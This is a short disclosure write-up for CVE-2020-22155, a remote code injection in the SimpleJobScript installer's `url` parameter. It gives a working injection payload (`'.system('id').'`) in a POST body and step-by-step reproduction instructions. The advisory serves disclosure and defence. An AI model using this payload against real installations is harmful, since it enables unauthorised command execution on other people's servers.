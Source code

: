 ```yaml
---
cve: "CVE-2020-22155"
title: "Code injection in SimpleJobScript by Niteosoft"
date: 2020-02-13
tags:
- cve
- code injection
- rce
---
```

The installer of SimpleJobScript is vulnerable to Remote Command Execution if not completed yet through the parameter `url`.

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22155
- public announcement: https://github.com/niteosoft/simplejobscript/issues/8

<hr />

**Description:**  
The installer of SimpleJobScript is vulnerable to Remote Command Execution if not completed yet through the parameter `url`

**Details:**  
URL: `/installer.php`  
Parameter: `url`  

**Payload:**  
`url=example.com'.system('id').'&host=127.0.0.1&port=3306&username=test&password=test&db_name=sjs&submit=Save`

**Steps to Reproduce:**  
1/ Download and extract the SimpleJobScript archive in the server web directory:  
https://simplejobscript.com/downloads/category/products/  
2/ Run the installer  
3/ If the installation process has never been completed before you'll be prompt a form to submit database informations  
4/ In the `App Url` input, enter the payload below and submit: `example.com'.system('id').'`  
5/ Visit with your browser: `/_config/config.envs.php`  

**PoC:**
![cve-2020-22155 SimpleJobScript rce](/images/cve-2020-22155.png)
